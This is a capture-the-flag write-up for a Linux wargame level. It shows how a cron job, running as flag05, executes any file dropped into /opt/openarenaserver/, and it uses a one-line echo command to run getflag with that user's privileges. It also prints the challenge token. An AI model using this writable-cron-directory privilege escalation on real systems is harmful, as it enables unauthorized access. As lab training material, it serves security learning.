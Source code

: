### Vulnerability Assessment

Upon logging in as `level05`, an email notification indicates the presence of a new message. 

```bash
You have a new mail.
```

The mail folder can be accessed using the `MAIL` environment variable, which points to the user's mail directory:

```bash
echo $MAIL -> /var/mail/level05
```

Inspecting the mail reveals a crontab task:

```bash
$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This crontab entry executes the `/usr/sbin/openarenaserver` script every 2 minutes as `flag05`. The script's content is as follows:

```jsx
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

The script runs every file in the `/opt/openarenaserver/` directory, then removes it. Importantly, it executes these files with the privileges of the `flag05` user.

### Exploitation

The vulnerability lies in the script's execution of arbitrary files in `/opt/openarenaserver/`. To exploit this, a script is created in this directory. The script will run `getflag` and redirect the output to a file in `/tmp/`:

```bash
echo "getflag > /tmp/flag" > /opt/openarenaserver/script

```

Once the cron job runs (within 2 minutes), it will execute the script, which in turn executes `getflag` with `flag05`'s privileges. After the script has been run by the cron job, the result can be checked:

```bash
$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc

```